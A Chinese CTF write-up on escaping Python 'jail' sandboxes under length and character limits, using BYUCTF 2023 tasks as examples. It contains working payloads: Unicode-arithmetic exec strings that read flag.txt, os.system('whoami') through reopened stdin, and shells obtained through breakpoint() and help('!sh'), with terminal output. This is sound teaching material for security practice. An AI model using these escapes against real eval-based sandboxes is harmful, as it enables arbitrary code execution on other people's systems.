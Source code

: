 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [dummykitty.github.io](https://dummykitty.github.io/posts/pyjail-bypass-05-%E7%BB%95%E8%BF%87%E9%95%BF%E5%BA%A6%E9%99%90%E5%88%B6/)

> 绕过长度限制 BYUCTF_2023 中的几道 jail 题对 payload 的长度作了限制 1 eval((__import__("re").sub(r'[a-z0-9]','',input("co......

绕过长度限制[](#绕过长度限制)
-----------------

BYUCTF_2023 中的几道 jail 题对 payload 的长度作了限制

```
eval((__import__("re").sub(r'[a-z0-9]','',input("code > ").lower()))[:130])
```

题目限制不能出现数字字母，构造的目标是调用 open 函数进行读取

```
print(open(bytes([102,108,97,103,46,116,120,116])).read())
```

函数名比较好绕过，直接使用 unicode。数字也可以使用 ord 来获取然后进行相减。我这里选择的是 chr(333).

```
# f = 102 = 333-231 = ord('ō')-ord('ç')
# a = 108 = 333-225 = ord('ō')-ord('á')
# l = 97 = 333-236 = ord('ō')-ord('ì')
# g = 103 = 333-230 = ord('ō')-ord('æ')
# . = 46 = 333-287 = ord('ō')-ord('ğ')
# t = 116 = 333-217 = ord('ō')-ord('Ù')
# x = 120 = = 333-213 = ord('ō')-ord('Õ')

print(open(bytes([ord('ō')-ord('ç'),ord('ō')-ord('á'),ord('ō')-ord('ì'),ord('ō')-ord('æ'),ord('ō')-ord('ğ'),ord('ō')-ord('Ù'),ord('ō')-ord('Õ'),ord('ō')-ord('Ù')])).read())
```

但这样的话其实长度超出了限制。而题目的 eval 表示不支持分号 ;，这种情况下，我们可以添加一个 exec。然后将 ord 以及不变的 `a('ō')` 进行替换。这样就可以构造一个满足条件的 payload

```
exec("a=ord;b=a('ō');print(open(bytes([b-a('ç'),b-a('á'),b-a('ì'),b-a('æ'),b-a('ğ'),b-a('Ù'),b-a('Õ'),b-a('Ù')])).read())")
```

但其实尝试之后发现这个 payload 会报错，原因在于其中的某些 unicode 字符遇到 lower() 时会发生变化，避免 lower 产生干扰，可以在选取 unicode 时选择 ord 值更大的字符。例如 chr(4434)

当然，可以直接使用 input 函数来绕过长度限制。

### 打开 input 输入[](#打开-input-输入)

如果沙箱内执行的内容是通过 input 进行传入的话（不是 web 传参），我们其实可以传入一个 input 打开一个新的输入流，然后再输入最终的 payload，这样就可以绕过所有的防护。

以 BYUCTF2023 jail a-z0-9 为例：

```
eval((__import__("re").sub(r'[a-z0-9]','',input("code > ").lower()))[:130])
```

即使限制了字母数字以及长度，我们可以直接传入下面的 payload（注意是 unicode）

这段 payload 打开 input 输入后，我们再输入最终的 payload 就可以正常执行。

```
__import__('os').system('whoami')
```

打开输入流需要依赖 input 函数，no builtins 的环境中或者题目需要以 http 请求的方式进行输入时，这种方法就无法使用了。

下面是一些打开输入流的方式:

#### sys.stdin.read()[](#sysstdinread)

注意输入完毕之后按 ctrl+d 结束输入

```
>>> eval(sys.stdin.read())
__import__('os').system('whoami')
kali
>>>
```

#### sys.stdin.readline()[](#sysstdinreadline)

```
>>> eval(sys.stdin.readline())
__import__('os').system('whoami')
```

#### sys.stdin.readlines()[](#sysstdinreadlines)

```
>>> eval(sys.stdin.readlines()[0])
__import__('os').system('whoami')
```

在 python2 中，在 python 2 中，input 函数从标准输入接收输入之后会自动 eval 求值。因此无需在前面加上 eval。但 raw_input 不会自动 eval。

### breakpoint 函数[](#breakpoint-函数)

pdb 模块定义了一个交互式源代码调试器，用于 Python 程序。它支持在源码行间设置（有条件的）断点和单步执行，检视堆栈帧，列出源码列表，以及在任何堆栈帧的上下文中运行任意 Python 代码。它还支持事后调试，可以在程序控制下调用。

在输入 breakpoint() 后可以代开 Pdb 代码调试器，在其中就可以执行任意 python 代码

```
>>> 𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()
--Return--
> <stdin>(1)<module>()->None
(Pdb) __import__('os').system('ls')
a-z0-9.py  exp2.py  exp.py  flag.txt
(Pdb) __import__('os').system('sh')
$ ls
a-z0-9.py  exp2.py  exp.py  flag.txt
```

### help 函数[](#help-函数)

help 函数可以打开帮助文档. 索引到 os 模块之后可以打开 sh

当我们输入 help 时，注意要进行 unicode 编码，help 函数会打开帮助

然后输入 os, 此时会进入 os 的帮助文档。

然后在输入 `!sh` 就可以拿到 /bin/sh, 输入 `!bash` 则可以拿到 /bin/bash

```
help> os
$ ls
a-z0-9.py  exp2.py  exp.py  flag.txt
$
```

参考资料[](#参考资料)
-------------

*   [Python 沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
*   [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
*   [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
*   [python 沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
*   [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
*   [[PyJail] python 沙箱逃逸探究 · 上（HNCTF 题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
*   [[PyJail] python 沙箱逃逸探究 · 中（HNCTF 题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
*   [[PyJail] python 沙箱逃逸探究 · 下（HNCTF 题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
*   [audited2](https://ctftime.org/writeup/31883)
*   [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
*   [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
*   [Python 沙箱逃逸的 n 种姿势](https://ctftime.org/writeup/28286)
*   [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)

This post is licensed under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) by the author.